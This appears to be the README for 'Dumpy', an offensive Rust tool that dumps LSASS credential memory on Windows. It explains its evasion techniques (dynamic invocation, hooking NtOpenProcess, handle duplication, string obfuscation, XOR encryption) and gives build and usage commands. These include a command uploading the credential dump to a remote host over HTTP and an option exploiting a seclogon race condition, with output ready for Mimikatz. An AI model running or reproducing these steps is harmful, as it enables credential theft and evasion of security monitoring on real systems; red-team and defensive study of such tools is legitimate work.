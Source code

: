 # Description

This tool dynamically calls MiniDumpWriteDump to dump lsass memory content. This process is done without opening a new process handle to lsass and using [DInvoke_rs](https://github.com/Kudaes/DInvoke_rs) to make it harder to detect its malicious behaviour. In order to obtain a valid process handle without calling OpenProcess over lsass, all process handles in the system are analyzed using NtQuerySystemInformation, NtDuplicateObject, NtQueryObject and QueryFullProcessImageNameW.

NtOpenProcess is hooked before calling MiniDumpWriteDump to avoid the opening of a new process handle over lsass.

NTFS Transaction are used in order to xor the memory dump before storing it on disk or sending it throught HTTP.

**Support added for both x86 and x64**.

# Compilation 

Since we are using [LITCRYPT](https://github.com/anvie/litcrypt.rs) plugin to obfuscate string literals, it is required to set up the environment variable LITCRYPT_ENCRYPT_KEY before compiling the code:

	C:\Users\User\Desktop\Dumpy\dumpy> set LITCRYPT_ENCRYPT_KEY="yoursupersecretkey"

After that, simply compile the code and execute it:

	C:\Users\User\Desktop\Dumpy\dumpy> cargo build --release
	C:\Users\User\Desktop\Dumpy\dumpy\target\x86_64-pc-windows-msvc\release> dumpy.exe -h

In case that you want to compile the tool for a x86 system, modify the value of the option "target" in the file .cargo\config (e.g: target = "i686-pc-windows-msvc").

# Usage

	USAGE:
    dumpy.exe [OPTIONS] <ACTION> [FORCE]

	ARGS:
	    <ACTION>    Valid values: dump or decrypt
	    <FORCE>     Force seclogon's service to leak a lsass handle through a race condition

	OPTIONS:
	    -h, --help                         Print help information
	    -i, --input-file <INPUT_FILE>      Encrypted dump file [default: c:\temp\input.txt]
	    -k, --key <KEY>                    Encryption key [default: 1234abcd]
	    -o, --output-file <OUTPUT_FILE>    Destination path [default: c:\temp\output.txt]
	    -u, --upload <UPLOAD>              Upload URL

Dumpy has two main actions:

- **dump**: It will execute the main logic to dump the lsass content. By default, it will store the result in a xored text file with a random name in the current directory. The option **upload** allows to send the memory content over HTTP to a remote host, avoiding the creation of the xored file on disk. I've used [this simple HTTP server](https://gist.github.com/smidgedy/1986e52bb33af829383eb858cb38775c) in order to handle the upload, but any other HTTP server that supports **multipart/form-data requests** will work.

		C:\Temp> dympy.exe dump -k secretKey -u http://remotehost/upload

If you want to force the leakage of a handle to the lsass through the race condition in seclogon's service described by [Antonio Cocomazzi](https://twitter.com/splinter_code) in [this post](https://splintercod3.blogspot.com/p/the-hidden-side-of-seclogon-part-3.html), just use the option **force**:
		
		C:\Temp> dympy.exe dump -k secretKey -u http://remotehost/upload force

- **decrypt**: This action allows to obtain the decrypted memory dump in the same format that tools like Mimikatz would expect. As arguments it expects the xored memory dump, the encryption key and the output file path. In case the xored file has been uploaded using HTTP, **it is required to perform a base64 decoding of the content before this decryption process**.

		C:\Temp> dumpy.exe decrypt -i xored.txt -o decrypted.txt -k secretKey

